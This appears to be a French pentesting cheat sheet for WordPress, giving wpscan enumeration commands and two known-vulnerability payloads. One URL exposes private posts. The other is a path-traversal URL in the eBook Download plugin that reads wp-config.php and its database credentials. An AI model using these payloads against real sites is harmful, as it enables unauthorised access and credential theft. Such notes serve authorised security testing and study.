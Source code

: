 # Wordpress

### Prise d'informations

* Enumérer rapidement sur un site Worpress :

```
wpscan --url <URL>
```

* Scanner plus en détail un site Wordpress :

```
wpscan --url <URL> -e
```

* Vérifier qu'il n'existe pas de pluggins vulnérables :

```
wpscan --plugins-detection aggressive --force --url <URL>
```

### Vulnérabilités connues

#### WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts

Vulnérabilité permettant de lire des posts cachés aves l'URL suivante :

```
http://domain.com/?static=1
```

#### LFI avec le plugin "eBook Download"

```
http://localhost/wordpress/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```
